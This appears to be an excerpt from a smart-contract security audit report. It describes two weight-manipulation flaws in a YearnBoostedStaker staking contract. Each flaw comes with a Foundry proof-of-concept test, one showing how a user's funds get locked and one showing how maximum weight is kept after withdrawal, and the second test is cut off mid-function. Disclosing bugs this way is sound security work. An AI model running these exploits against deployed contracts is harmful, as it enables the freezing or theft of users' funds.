 **Locking Victim's Tokens**: An attacker can target another user's deposit, effectively locking their funds in the contract permanently. After the victim's deposit reaches maximum weight, the attacker can reset this weight to week zero, thus trapping the funds.

```solidity
function test_lock_fundsPOC() external {
        ERC20 token = new LockedPrisma(); //ERC20 liquid locked prisma
        YearnBoostedStaker staking = new YearnBoostedStaker(token, 4, block.timestamp, address(this));

        //deposit 100 tokens
        token.approve(address(staking), 100 ether);
        staking.deposit(100 ether);

        //skip 4 weeks so the bitmap will be completely erased on a checkpoint (shift 4 times so not read anymore)
        skip(4 weeks);
        staking.checkpointAccount(address(this));

        //rollback
        staking.checkpointAccountWithLimit(address(this), staking.getWeek() - 4);

        //check current weight has been reset to week 0 power
        staking.checkpointAccount(address(this));
        assertEq(staking.getAccountWeight(address(this)), 50 ether);

        //but our tokens are now realized and not pending so the `weight` update in withdraw will underflow
        vm.expectRevert(stdError.arithmeticError);
        staking.withdraw(100 ether, address(this));
    }
```

**Maintaining Maximum Weight Post-Withdrawal**: An attacker can deposit tokens, wait to achieve maximum boosted weight, withdraw (setting their weight to zero), and then manipulate the weight back to its maximum by exploiting `_checkpointAccount()`.

```solidity
import "forge-std/Test.sol";
import {ERC20} from "@openzeppelin/contracts@v4.9.3/token/ERC20/ERC20.sol";
import {YearnBoostedStaker} from "../contracts/YearnBoostedStaker.sol";

contract LockedPrisma is ERC20 {
    constructor() ERC20("liquid locked prisma", "YPRISMA") {
        _mint(msg.sender, 100_000 ether);
    }
}

contract ContractTest is Test {
    function test_resetWeightPOC() external {
            ERC20 token = new LockedPrisma(); //ERC20 liquid locked prisma
            YearnBoostedStaker staking = new YearnBoostedStaker(token, 4, block.timestamp, address(this));

            //deposit 100 tokens
            token.approve(address(staking), 100 ether);
            staking.deposit(100 ether);

            skip(6 weeks);
            staking.withdraw(100 ether, address(this));

            staking.checkpointAccountWithLimit(address(this), staking.getWeek() - 1);
            staking.checkpointAccount(address(this));

            assertEq(staking.getAccountWeight(address(this)), 250 ether);
```